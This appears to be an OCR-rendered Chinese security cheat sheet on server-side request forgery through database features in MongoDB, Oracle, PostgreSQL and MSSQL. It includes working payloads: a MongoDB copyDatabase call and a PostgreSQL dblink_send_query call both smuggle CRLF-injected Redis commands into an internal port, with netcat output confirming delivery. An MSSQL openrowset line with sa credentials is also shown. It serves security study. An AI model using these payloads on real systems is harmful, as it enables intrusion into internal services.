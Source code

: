 ＜stratml:Source＞http://wuyun.org/stml＜/stratml:Source＞

##### 数据库内置功能

+ MongoDB
    变废为宝的未授权访问
    >db.copyDatabase('\r\nconfig set dbfilename wyssrf\r\nquit\r\n’,'test','10.6.4.166:6379')

    ```bash
    [root@10-6-4-166 ~]# nc -l -vv 6379
    Connection from 10.6.19.144 port 6379 [tcp/*]
    config set dbfilename wyssrf
    quit
    .system.namespaces
    ```

    > db.copyDatabase(‘helo','test','10.6.4.166:22');
    {"errmsg" : "……helo.systemnamespaces failed: " }
    > db.copyDatabase(‘helo','test','10.6.4.166:9999');
    {"errormsg" : "couldn't connect to server 10.6.4.166:9999"}
    互联网开放了50000+不需要授权访问的 MongoDB Server
+ Oracle
    UTL_HTTP
    UTL_TCP
    UTL_SMTP
    [https://docs.oracle.com/cd/E11882_01/appdev.112/e40758/u_http.htm#ARPLS070](https://docs.oracle.com/cd/E11882_01/appdev.112/e40758/u_http.htm#ARPLS070)
+ PostgresSQL
    dblink_send_query()发起远程查询

    ```sql
    SELECT dblink_send_query(
        'host=127.0.0.1 dbname=quit user=\'\r\nconfig set dbfilename wyssrf\r\nquit\r\n\' password=1 port=6379 sslmode=disable',
        'select version();'
    )
    ```

    回显：
    >[root@localhost ~]# nc -l -vv 6379
    Connection from 127.0.0.1 port 6379 [tcp/*]
    config set dbfilename wyssrf
    quit

    [https://www.postgresql.org/docs/8.4/static/dblink.html](https://www.postgresql.org/docs/8.4/static/dblink.html)
+ MSSQL
    OpenRowset()

    ```sql
    SELECT openrowset('SQLOLEDB',
    'server=192.168.1.5;uid=sa;pwd=sa;database=master')
    ```

    OpenDatasource()
